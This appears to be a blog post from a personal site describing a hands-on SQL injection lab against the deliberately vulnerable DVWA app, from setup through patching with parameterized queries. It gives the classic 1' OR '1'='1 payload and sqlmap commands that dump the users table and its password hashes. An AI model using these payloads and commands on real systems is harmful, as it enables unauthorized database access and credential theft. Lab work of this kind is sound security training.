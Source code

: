 ```yaml
---
layout: post
title:  "Hands‑On SQL Injection Lab: DVWA from Exploit to Patch"
date:   2025-07-30 08:20:00 -0500
categories: pentesting web-security sql-injection
tags: [DVWA, SQLi, penetration-testing, cyber-security, git]
---
```


In this lab, we’ll walk through a complete **SQL Injection** lifecycle using the Damn Vulnerable Web Application (DVWA). You’ll learn how to:

1. **Set up** a two‑VM environment: Kali Linux (attacker) & Ubuntu + DVWA (target)  
2. **Manually exploit** the SQLi vulnerability  
3. **Automate** the attack with `sqlmap`  
4. **Troubleshoot** sessions, redirects, and cookie issues  
5. **Patch** the vulnerability and **verify** the fix

## TL;DR

- **Setup**: Two‑VM lab with Kali Linux (attacker) and Ubuntu + DVWA (target)  
- **Manual Exploit**: Used `1' OR '1'='1` in DVWA’s SQLi page to retrieve user records  
- **Automation**: Leveraged `sqlmap` with valid `PHPSESSID` and `security=low` cookies to dump the `dvwa.users` table  
- **Troubleshooting**: Resolved 302 redirects, cookie formatting, URL quoting, and cache issues (`--flush-session`)  
- **Patch**: Switched DVWA to “High” security—uses PDO parameterized queries—and confirmed injection is blocked  
- **Key Lesson**: Always use parameterized queries to prevent SQL Injection; hands‑on debugging is as important as the exploit.  

---

## 🛠 Environment Setup

1. **Ubuntu Server** VM (DVWA target)  
   - Install Apache, PHP, MySQL:  
     ```bash
     sudo apt update
     sudo apt install -y apache2 php libapache2-mod-php php-mysql mysql-server
     ```
   - Clone DVWA and configure database:  
     ```bash
     cd /var/www/html
     sudo git clone https://github.com/digininja/DVWA.git
     cd DVWA/config
     sudo cp config.inc.php.dist config.inc.php
     ```
   - Edit `config.inc.php`:
     ```php
     $_DVWA['db_user']                 = 'dvwauser';
     $_DVWA['db_password']             = 'password';
     $_DVWA['enable_phpids']           = false;
     $_DVWA['disable_authentication_tokens'] = true;
     ```
   - Create database & user in MySQL:
     ```sql
     CREATE DATABASE dvwa;
     CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'password';
     GRANT ALL ON dvwa.* TO 'dvwauser'@'localhost';
     FLUSH PRIVILEGES;
     ```
   - Restart Apache and complete setup at `http://<IP>/DVWA/setup.php`.

   ![DVWA Setup Success](/assets/dvwa-setup.png)
   Ensure you follow DVWA set-up carefully as a misconfigured file gave me quite the headache!

2. **Kali Linux** VM (Attacker)  
   - Install tools:
     ```bash
     sudo apt update
     sudo apt install -y sqlmap curl
     ```
   - Ensure you can browse to DVWA (`admin`/`password`) and set security **Low**.

---

## 🔍 Phase 1: Manual SQL Injection

Navigate to:

```
http://<IP>/DVWA/vulnerabilities/sqli/
```

Enter in **ID** field:
```
1' OR '1'='1
```
Submit and observe multiple user records returned—proof of SQLi.

![](/assets/manual-sqli.png)

---

## 🤖 Phase 2: Automating with sqlmap

1. **Grab your session cookie** from the Kali browser (`PHPSESSID`, `security=low`).  
2. **Verify** access to the injection point:
   ```bash
   curl -IL --cookie "PHPSESSID=<ID>; security=low" \
       "http://<IP>/DVWA/vulnerabilities/sqli/?id=1"
   # Expect HTTP/1.1 200 OK
   ```

3. **Enumerate databases**:
   ```bash
   sqlmap -u "http://<IP>/DVWA/vulnerabilities/sqli/?id=1" \
     --cookie="PHPSESSID=<ID>; security=low" \
     --dbs --batch --flush-session
   ```
4. **Dump `users` table**:
   ```bash
   sqlmap -u "http://<IP>/DVWA/vulnerabilities/sqli/?id=1" \
     --cookie="PHPSESSID=<ID>; security=low" \
     -D dvwa -T users --dump --batch --flush-session
   ```

   You’ll retrieve `user_id`, `user`, and MD5 `password` hashes.

![](/assets/sqlmap-dump.png)

---

## 🔧 Troubleshooting Highlights

* **302 Redirects**: Ensure you log in from **Kali VM**, not host.
* **Cookie Errors**: Use correct format:
  ```
  --cookie="PHPSESSID=<ID>; security=low"
  ```
* **Malformed URL**: Wrap URL in quotes, include `?id=1`.
* **Cache Issues**: Use `--flush-session` to clear sqlmap cache.

---

## 🛡 Phase 3: Patching & Verification

1. In DVWA **Security** menu, set to **High** → Submit.
2. Review `high.php`—it uses PDO parameterized queries:
   ```php
   $stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = :id");
   $stmt->bindParam(':id', $_GET['id'], PDO::PARAM_INT);
   $stmt->execute();
   ```
3. **Retest**:
   * Manual payload `1' OR '1'='1` → **no data**
   * `sqlmap --dbs` → **no injectable parameters**

![](/assets/patch-verified.png)

---

## 🎓 Key Takeaways

* **SQL Injection** exploits unvalidated input—classic payload `1' OR '1'='1`.
* Tools like **sqlmap** automate enumeration but require proper cookies & session context.
* **Prepared statements** are the gold‑standard defense against SQLi.
* Hands‑on troubleshooting is as critical as the exploit itself.

---

## 📂 Resources

* **GitHub Repo:** [JohnSeanson/sql-injection-dvwa-lab](https://github.com/JohnSeanson/sql-injection-dvwa-lab)
* **Live Report:** [johnseanson.github.io](https://johnseanson.github.io)
* **DVWA:** [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
* **sqlmap:** [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

---

*Ready to try it yourself? Fork the repo, spin up your VMs, and share your results! Happy hacking and stay secure.*
